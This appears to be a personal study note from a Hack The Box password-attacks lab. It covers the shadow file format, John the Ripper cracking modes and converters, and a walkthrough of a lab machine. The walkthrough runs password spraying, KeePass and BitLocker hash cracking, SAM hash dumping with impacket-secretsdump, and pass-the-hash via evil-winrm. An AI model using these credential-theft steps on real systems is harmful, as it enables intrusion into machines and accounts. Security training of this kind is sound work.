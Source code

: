 ### linux 


```
cat etc/shadow
```

```bash
htb-student:$y$j9T$3QSBB6CbHEu...SNIP...f8Ms:18955:0:99999:7:::
```

|               |                                   |                         |              |              |                     |                        |                      |                    |
| ------------- | --------------------------------- | ----------------------- | ------------ | ------------ | ------------------- | ---------------------- | -------------------- | ------------------ |
| htb-student:  | $y$j9T$3QSBB6CbHEu...SNIP...f8Ms: | 18955:                  | 0:           | 99999:       | 7:                  | :                      | :                    | :                  |
| `<username>`: | `<encrypted password>`:           | `<day of last change>`: | `<min age>`: | `<max age>`: | `<warning period>`: | `<inactivity period>`: | `<expiration date>`: | `<reserved field>` |
## windows logon process

![[Pasted image 20250111181352.png]]
![[Pasted image 20250111181401.png]]
  
#### Credential Storage

```powershell-session
PS C:\Users\[Username]\AppData\Local\Microsoft\[Vault/Credentials]\
```

## John the ripper

#### Single Crack Mode

```bash
john --format=<hash_type> <hash or hash_file>
```

#### Wordlist Mode

```shell
john --wordlist=<wordlist_file> --rules <hash_file>
```

#### Incremental Mode in John

```shell
john --incremental <hash_file>
```

## Cracking Files

```shell
cry0l1t3@htb:~$ <tool> <file_to_crack> > file.hash
cry0l1t3@htb:~$ pdf2john server_doc.pdf > server_doc.hash
cry0l1t3@htb:~$ john server_doc.hash
                # OR
cry0l1t3@htb:~$ john --wordlist=<wordlist.txt> server_doc.hash 
```

| **Tool**                | **Description**                               |
| ----------------------- | --------------------------------------------- |
| `pdf2john`              | Converts PDF documents for John               |
| `ssh2john`              | Converts SSH private keys for John            |
| `mscash2john`           | Converts MS Cash hashes for John              |
| `keychain2john`         | Converts OS X keychain files for John         |
| `rar2john`              | Converts RAR archives for John                |
| `pfx2john`              | Converts PKCS#12 files for John               |
| `truecrypt_volume2john` | Converts TrueCrypt volumes for John           |
| `keepass2john`          | Converts KeePass databases for John           |
| `vncpcap2john`          | Converts VNC PCAP files for John              |
| `putty2john`            | Converts PuTTY private keys for John          |
| `zip2john`              | Converts ZIP archives for John                |
| `hccap2john`            | Converts WPA/WPA2 handshake captures for John |
| `office2john`           | Converts MS Office documents for John         |
| `wpa2john`              | Converts WPA/WPA2 handshakes for John         |

# hard machine

we get user johanna

#### quick nmap

```
nmap -sV -sS -A <ip>
```

- open ports SMB, 3389(RDP), 5985 EVILWIN

### intial access

```
nxc smb <ip> -u Johanna -p <mutatedpasslist> --shares
```

## remotiung to johanna

- keepas kdbx
- keepass2john 
- crack the hash we get david and password

```
nxc smb -u david -p password --shares
```

```
smbclient -u david \\\\ip\\david
```

> here we get encrypted vhd file
- bitlocker2john > crack the bitlocker and mount the drive in windows

```
THIS WAS A FUCKING BITCH TO DO #FUCK WINDOWS
```

- We get SAM and SYSTEM 
```
impacket-secretsdump -sam SAM -system SYSTEM 
```

- We get hashes from Administraot

```
evil-winrm -u Administraotr -H <hash> 
```

### EZ CLAP